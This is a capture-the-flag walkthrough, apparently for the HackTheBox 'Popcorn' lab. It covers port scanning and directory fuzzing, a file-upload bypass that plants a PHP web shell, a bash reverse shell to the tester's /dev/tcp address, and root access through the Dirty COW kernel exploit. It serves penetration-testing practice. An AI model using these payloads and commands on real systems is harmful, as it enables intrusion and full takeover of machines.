



## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.6 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We will add `popcorn.htb` to our `/etc/hosts` file for easier access:

```bash
echo "10.10.10.6 popcorn.htb" | sudo tee -a /etc/hosts
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.10.6 -o targeted
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

We see a web server running on port 80. Let's visit the website in our browser.


We see a simple apache default page. Let's run a directory brute force using `ffuf` to find any hidden directories:

```bash
ffuf -u http://popcorn.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 
```
```
test                    [Status: 200, Size: 47400, Words: 2478, Lines: 655, Duration: 162ms]
                        [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 6858ms]
index                   [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 7902ms]
torrent                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 57ms]
rename                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 114ms]
                        [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 89ms]
```

We find a interesting directory `/torrent`. Let's visit it in our browser.


We register a new user and login. We can upload a torrent file to the server. We find out, that we can add some screenshots to the torrent file. Let's try to upload a PHP reverse shell as a screenshot.


## User Exploitation

In Burp Suite, we change the file extension from `.jpg` to `.php` to bypass the upload restrictions. We also change the content by additng a simple PHP reverse shell code:
```
filename="small.php"

image content=
...
<?php system($_GET['cmd']); ?>
...
```

Then we upload the file.

We try to access the file using the following URL (the file name is generated by the server but can be found in the web page source code):
```bash
curl http://popcorn.htb/torrent/upload/dd8255ecdc7ca55fb0bbf81323d87062db1f6d1c.php?cmd=whoami
```
```
www-data
```

We have successfully executed a command on the server. Now we will set up a netcat listener on our machine and get a reverse shell.
```bash
nc -lvnp 4444
```
```bash
curl http://popcorn.htb/torrent/upload/dd8255ecdc7ca55fb0bbf81323d87062db1f6d1c.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.11/443 0>%261"
whoami
```
```
www-data
```

Now that we have a reverse shell, we will upgrade it to a fully interactive TTY shell using this script:
```bash
script /dev/null -c bash
stty raw -echo
fg
reset xterm
```

Now we try to get the user flag:
```bash
cat /home/george/user.txt
```
```
user flag value
```

## Root Exploitation

We find out `popcorn.htb` is running a old kernel version:
```bash
uname -a
```
```
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```

We look up for any public exploits for this kernel version and find a local privilege escalation exploit called `Dirty COW` (CVE-2016-5195). We download the exploit code from [https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839).

First we create a C file called `dirty.c` and copy the exploit code into it. Then we compile the code using `gcc`:
```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Then we run the exploit to get a root shell:
```bash
./dirty my-new-password
```

We can now switch to the new privileged user `firefart` using the password we provided:

```bash
su firefart
Password: my-new-password
whoami
```
```
firefart
```

Now we can read the root flag:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion
In this writeup, we have successfully exploited a vulnerable web application to gain a reverse shell and then escalated our privileges to root using a local privilege escalation exploit. Always ensure to keep your systems updated and patched to prevent such vulnerabilities.